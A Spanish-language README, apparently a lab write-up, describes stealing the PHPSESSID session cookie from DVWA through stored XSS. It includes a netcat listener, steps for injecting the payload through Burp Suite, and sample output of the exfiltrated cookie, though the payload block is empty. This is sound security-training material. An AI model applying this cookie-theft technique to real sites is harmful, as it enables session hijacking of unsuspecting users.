



# Explotación XSS para Captura de Cookie PHPSESSID (Nivel Medio)

Este README describe un método de explotación Cross-Site Scripting (XSS) de nivel bajo para capturar la cookie de sesión `PHPSESSID` de una aplicación web vulnerable, como DVWA (Damn Vulnerable Web Application).

## Herramientas Necesarias

* Un servidor web temporal (opcional, para facilitar la inyección inicial).
* Burp Suite Community Edition o Professional.
* `netcat` (o `nc`) instalado en tu sistema.

## Pasos para la Explotación

1.  **Iniciar netcat en escucha:**
    Abre una terminal y ejecuta:
    ```bash
    nc -lvp 44
    ```
    Esto pondrá a `netcat` a escuchar conexiones entrantes en el puerto 44.

2.  **Configurar Burp Suite y el navegador:**
    Configura Burp Suite como proxy y configura tu navegador para usarlo.

3.  **Interactuar con la página web vulnerable:**
    Navega a la página con el formulario vulnerable (e.g., en DVWA, la página con campos "Name" y "Message").



4.  **Crear el payload XSS:**
    En el campo "Name", introduce el siguiente payload HTML para ejecutar JavaScript que extrae y envía la cookie `PHPSESSID` a tu servidor `netcat`:
    ```html
    
    ```
    Reemplaza `TU_IP` con la dirección IP de la máquina donde está corriendo `netcat`. Si es la misma máquina, puedes usar `127.0.0.1` o la IP local.
    En nuestro caso al tener limite de cracteres lo tendremos que inyectar mediante Burp Suite en el punto 7.

5.  **Introducir texto en el campo "Message":**
    Completa el campo "Message" con cualquier texto.

6.  **Interceptar la petición con Burp Suite:**
    Haz clic en "Submit". La petición HTTP se detendrá en el interceptor de Burp Suite.

7.  **Modificar el payload (si es necesario):**
    Verifica el campo "Name" en Burp Suite. Si el payload se ha truncado, reemplaza el valor completo del parámetro "Name" con el payload del paso 4, asegurándote de que la IP sea correcta.



8.  **Reenviar la petición:**
    Haz clic en "Forward" en Burp Suite para enviar la petición modificada al servidor.

9.  **Verificar la recepción de la cookie:**
    En la terminal donde `netcat` está en escucha, deberías ver una conexión entrante y una línea similar a:
    ```
    Listening on 0.0.0.0 44
    Connection received on [IP_DEL_NAVEGADOR] [PUERTO]
    GET /?cookie=EL_VALOR_DE_TU_PHPSESSID HTTP/1.1
    Host: TU_IP:44
    User-Agent: ...
    Accept: */*
    Accept-Encoding: gzip, deflate, br
    Connection: close
    ```
    `EL_VALOR_DE_TU_PHPSESSID` es la cookie de sesión capturada.

    

**Nota:** Este método explota una vulnerabilidad XSS de nivel medio donde la entrada del usuario no se sanitiza adecuadamente. En escenarios más realistas, las defensas contra XSS serían más robustas.